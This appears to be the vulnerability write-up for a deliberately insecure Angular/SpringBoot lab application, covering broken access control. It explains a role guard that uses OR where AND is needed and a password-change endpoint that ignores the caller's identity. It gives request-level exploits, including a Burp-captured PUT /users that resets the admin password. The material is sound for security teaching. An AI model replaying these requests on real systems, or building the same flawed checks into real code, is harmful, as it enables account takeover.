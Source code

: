 # Broken Access Control
Broken Access Control doesn't or improperly verifies authorities/permissions to a resource.  Devastating loss of confidentiality, integrity, and potentially availability may occur depending on the resource not assessed correctly.

## Exploitation
**Prerequisites:** _Authenticated_

**Location:** _Admin.guard & PUT /users_

The Angular application and SpringBoot both have Broken Access Control.  Angular incorrectly validates Admin-level locations by checking if the user is authenticated _or_ ADMIN-ROLE (admin or authenticated) instead of authenticated _and_ ADMIN-ROLE (admin and authenticated), ultimately allowing normal authenticated users to access these resources.  SpringBoot, while checks for authentication, does not utilize username of authenticated user to change passwords.  This means that any user can change another user's password if they know the username.  Below are two exploitation examples, one connecting to an admin resource as a normal authenticated user (Angular) and the other changing another user's password (SpringBoot):

*Angular Broken Access Control*

    GET http://localhost:4200/admin/products


Successful exploitation looks like:
![Alt text](../images/bac.png?raw=true "Angular Broken Access Control")

*SpringBoot Broken Access Control*

    PUT /users
    raw:
    {
        "username":"admin",
        "oldPassword":"password",
        "newPassword":"password1!"
    }

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Password updated successfully."
    }

## Burp Suite Example Exploitation

    PUT /users HTTP/1.1
    Host: 127.0.0.1:8081
    Content-Length: 71
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    Content-Type: application/json
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: JSESSIONID=D5FE8244B27DF4207B4BEC89ABE97921
    Connection: close

    {"username":"admin","oldPassword":"password","newPassword":"password1"}

